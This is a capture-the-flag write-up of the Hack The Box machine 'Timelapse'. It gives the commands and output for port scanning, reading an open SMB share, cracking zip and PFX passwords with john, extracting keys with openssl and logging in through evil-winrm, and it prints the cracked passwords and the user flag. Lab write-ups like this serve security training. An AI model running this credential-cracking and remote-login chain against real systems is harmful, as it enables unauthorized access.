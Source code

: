 # Timelapse
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ae9f7ae-3c2d-47b0-96c8-611d44ecf6ce)


## Lesson learned:
- Enumerate public smb share with **smbclient**.
- Cracking Personal Information Exchange (PFX) file.
- Using openssl command for extracting pfx content.
- Converting pfx file to john file.
- Active Directory.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.152 --min-rate 1000 -Pn 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-29 02:11 PST
Nmap scan report for 10.10.11.152
Host is up (0.019s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-29 18:13:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2023-11-29T18:15:22+00:00; +7h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-29T18:14:44
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 320.43 seconds
```

1. Based from the nmap results, it opens few ports (which is not good) and it runs web application at port 5986.
2. Noticed there are SMB share opens, let's enumerate it with **smbclient**.

> Using smbclient, for password using your own machine password.

```
smbclient -L //timelapse.htb/
```

```
┌──(brandy㉿bread-yolk)-[~]
└─$ smbclient -L //timelapse.htb/
Password for [WORKGROUP\brandy]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to timelapse.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

3. Nice there's `ADMIN$` sharename, but the only sharename we can access without credential is `Shares`.

```
smbclient //timelapse.htb/Shares
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/164a12a2-9dc5-429e-8895-73e6c381f3e1)


4. After listing all files inside `Dev` directory, found a .zip file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90b3257a-76ba-4d73-a210-d624fe8693fd)


5. To download a file from smb share, we use `get` command.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b81c185-9b93-444c-9a64-d11334e368cb)


6. Interesting! Inside it, there's a .pfx file and it seems we need to use john to crack the password.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/140376c2-ba5f-4a4c-bf42-5e015d8e033b)


> Using john

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_timelapse]
└─$ zip2john winrm_backup.zip > hash.txt                                                                                                                           
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

> supremelegacy

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_timelapse]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-11-29 04:11) 4.761g/s 16559Kp/s 16559Kc/s 16559KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


7. Personal Information Exchange (PFX) also known as PKCS #12 or P12 file is a binary format file that is commonly used to store a private key with its associated public key and certificates.
8. It securely exporting and importing private keys and certificates, especially in scenarios where you need to move or back up a certificate and its associated private key.
9. They are often used in web server configurations, for example, when installing SSL/TLS certificates. The PFX format provides a convenient way to bundle all the necessary components securely into a single file.
10. Great! Now we know what **.pfx** file is, let's extract what inside it and used them with **WinRM** so we can login to the remote server without a password.

> Command to extract pfx file

#### NOTES:

```
For those who wonders why .pem (Privacy Enhanced Mail), because PEM file is a text file that typically contains one or more cryptographic elements,
encoded in the PEM format. The contents of a PEM file are encoded using Base64 encoding and are enclosed between
"-----BEGIN CERTIFICATE-----" and "-----END CERTIFICATE-----" (or a similar marker depending on the type of data).

However, the extension is not a must to .pem, can be anything. But I prefer .pem, because it helps me
understand what type of file am I dealing with.
```

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

11. It failed when I reused the previous password, hence let's crack it again using john.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/91600221-4507-4378-903e-5cdb6ece009d)


12. Anyway, inside john directory you shall found several python script which convert few file extension to **.john**. 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7d10ac0-3f38-483b-bca9-cd623f7fab9b)


> Run openssl command again using **thuglegacy**

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1f82ad66-0bf5-4428-8d16-46a213e86285)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3db03f58-40fc-4959-87ba-59d9103e44a3)


13. Great! Now let's also extract the certificate (public key).

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cccb20ca-ee7c-4e27-a4af-0c73dc031de0)


14. Now let's run **evil-winrm**.

```
evil-winrm -i timelapse.htb -S -k key.pem -c cert.pem

-i, represents which host to connect to.
-S, represents that we want to enable SSL, because we are trying to connect to:

5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

-k, represents the private key.
-c, represents the public key.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/496ba4c2-352d-4666-a429-9b664821a8b0)

> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0247e754-364e-4ec2-b3b6-eb6e82e696d4)


## USER FLAG

```
3ddef02b88667a36cc86db0373cfd99a
```




## IMPORTANT LINKS

```

```




